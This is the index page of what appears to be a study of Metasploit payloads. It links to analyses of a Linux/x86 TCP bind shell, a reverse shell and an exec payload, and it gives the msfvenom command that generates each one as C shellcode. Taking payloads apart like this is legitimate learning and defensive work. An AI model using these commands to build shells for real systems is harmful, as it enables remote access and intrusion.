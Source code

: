 ### MSF Payloads Analysis ##

I decided to divide the analysis into three parts due to the extensive descriptions and explanations.

- [Linux/x86 TCP Bind Shell](Bind-Shell)
```sh
$ msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
```
- [Linux/x86 TCP Reverse Shell](Reverse-Shell)
```sh
$ msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=127.0.0.1 -f c
```
- [Linux/86 Exec](Exec)
```sh
$ msfvenom -p linux/x86/exec CMD=/bin/bash -f c
```
